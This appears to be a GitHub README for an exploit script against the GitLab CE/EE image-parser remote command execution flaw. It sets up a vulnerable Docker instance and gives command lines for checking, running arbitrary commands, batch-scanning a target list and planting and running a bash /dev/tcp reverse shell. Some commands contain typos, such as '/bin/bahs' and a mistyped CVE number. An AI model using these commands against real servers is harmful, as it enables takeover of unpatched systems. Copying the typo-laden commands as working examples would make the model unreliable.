### Vuln Impact

An issue has been discovered in GitLab CE/EE affecting all versions starting from 11.9. GitLab was not properly validating image files that were passed to a file parser which resulted in a remote command execution.

### Vuln Product

- Gitlab CE/EE < 13.10.3
- Gitlab CE/EE < 13.9.6
- Gitlab CE/EE < 13.8.8

### Environment

```C
export GITLAB_HOME=/srv/gitlab

sudo docker run --detach \
  --hostname gitlab.example.com \
  --publish 443:443 --publish 80:80 \
  --name gitlab \
  --restart always \
  --volume $GITLAB_HOME/config:/etc/gitlab \
  --volume $GITLAB_HOME/logs:/var/log/gitlab \
  --volume $GITLAB_HOME/data:/var/opt/gitlab \
  gitlab/gitlab-ce:13.9.1-ce.0
```

### Vunl Check

##### Basic usage

```c
python3 CVE-2021-2205.py
```



##### Vuln check

```c
python3 CVE-2021-2205.py -v true -t http://gitlab.example.com
```



##### command execute

```c
python3 CVE-2021-2205.py -a true -t http://gitlab.example.com -c "curl http://192.168.59.1:1234/1.txt"
```



```c
python3 CVE-2021-2205.py -a true -t http://gitlab.example.com -c "echo 'Attacked by Al1ex!!!' > /tmp/1.txt"
```





##### batch scan

```
python3 CVE-2021-2205.py -s true -f target.txt
```



##### Reserve Shell

```
python3 CVE-2021-2205.py -a true -t http://gitlab.example.com -c "echo 'bash -i >& /dev/tcp/ip/port 0>&1' > /tmp/1.sh"
```





```
python3 CVE-2021-2205.py -a true -t http://gitlab.example.com -c "chmod +x /tmp/1.sh"
```





```
python3 CVE-2021-2205.py -a true -t http://gitlab.example.com -c "/bin/bahs /tmp/1.sh"
```



### Reference

https://github.com/mr-r3bot/Gitlab-CVE-2021-22205

https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html